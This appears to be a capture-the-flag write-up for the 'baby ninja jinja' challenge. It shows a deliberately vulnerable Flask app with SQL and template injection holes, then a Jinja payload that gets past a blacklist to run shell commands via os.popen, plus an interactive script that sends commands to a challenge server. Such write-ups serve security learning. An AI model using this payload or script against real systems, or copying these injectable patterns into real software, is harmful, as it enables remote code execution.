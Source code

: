 # baby ninja jinja
![Screenshot from 2021-08-19 20-05-55](https://user-images.githubusercontent.com/87865134/130073504-107bfaac-b01f-42ea-a657-d8cc051ac7cb.png)

## Information gathering
- found `/debug` path and have source code:
```python
from flask import Flask, session, render_template, request, Response, render_template_string, g
import functools, sqlite3, os

app = Flask(__name__)
app.config['SECRET_KEY'] = os.urandom(120)

acc_tmpl = '''{% extends 'index.html' %}
{% block content %}
<h3>baby_ninja joined, total number of rebels: reb_num<br>
{% endblock %}
'''

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect('/tmp/ninjas.db')
        db.isolation_level = None
        db.row_factory = sqlite3.Row
        db.text_factory = (lambda s: s.replace('{{', '').
            replace("'", '&#x27;').
            replace('"', '&quot;').
            replace('<', '&lt;').
            replace('>', '&gt;')
        )
    return db

def query_db(query, args=(), one=False):
    with app.app_context():
        cur = get_db().execute(query, args)
        rv = [dict((cur.description[idx][0], str(value)) \
            for idx, value in enumerate(row)) for row in cur.fetchall()]
        return (rv[0] if rv else None) if one else rv

@app.before_first_request
def init_db():
    with app.open_resource('schema.sql', mode='r') as f:
        get_db().cursor().executescript(f.read())

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None: db.close()

def rite_of_passage(func):
    @functools.wraps(func)
    def born2pwn(*args, **kwargs):

        name = request.args.get('name', '')

        if name:
            query_db('INSERT INTO ninjas (name) VALUES ("%s")' % name)

            report = render_template_string(acc_tmpl.
                replace('baby_ninja', query_db('SELECT name FROM ninjas ORDER BY id DESC', one=True)['name']).
                replace('reb_num', query_db('SELECT COUNT(id) FROM ninjas', one=True).itervalues().next())
            )

            if session.get('leader'): 
                return report

            return render_template('welcome.jinja2')
        return func(*args, **kwargs)
    return born2pwn

@app.route('/')
@rite_of_passage
def index():
    return render_template('index.html')

@app.route('/debug')
def debug():
    return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337, debug=True)
```

## Analysis
- website use `Flask` template
- value of parameter `?name=` to be saved into database and then select -> `render_template_string()` => maybe **Server-side Template Injection**
- website use blacklist to prevent vulnerability: `{{`, `'`, `"`, `<`, `>` => can't use `{}`. However, we can use `{% %}` to perform injection
- Result of code injection doesnt show in response. 
- In source we see `import session, request` 
  - can use `session` to show result of code injection
  - can use `request` to bypass `'` and `"` or use `chr()`
  
### How to attack:
  - injection code
  - check `session` in `cookie` of Http response
  - decode `session` to view result

## Exploit
- Injection code
  - blacklist: `{{`, `'`, `"`, `<`, `>`
  - payload:

```python     
{% if session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})==1 %}{% endif %}&os=os&command=ls
```
- use `flask-usign` decode session 

![Screenshot from 2021-08-19 21-57-37](https://user-images.githubusercontent.com/87865134/130091714-74fddf9e-5cdf-4ef1-8c0a-7964581bd5c7.png)

- Python script
```python
import requests
import flask_unsign

url = 'http://142.93.35.92:31857'

while(1):
    cmd = input("command: ")
    if cmd == "q":
        exit()
    payload = "/?name={%+if+session.update({1:config.__class__.__init__.__globals__[request.args.os].popen(request.args.command).read()})+==+1+%}{%+endif+%}&os=os&command="+cmd
    res = requests.Session()
    res.get(url + payload)
    session_cookie = res.cookies.get_dict()['session']
    print(flask_unsign.decode(str(session_cookie))['1'].decode())
```
- run script and get flag

![Screenshot from 2021-08-19 21-52-50](https://user-images.githubusercontent.com/87865134/130090898-9fa2b7d0-aa39-4dca-90b7-0fa3c402d014.png)

## Description
- **category:** Server-side Template Injection

## Reference
- https://flask.palletsprojects.com/en/2.0.x/quickstart/#rendering-templates

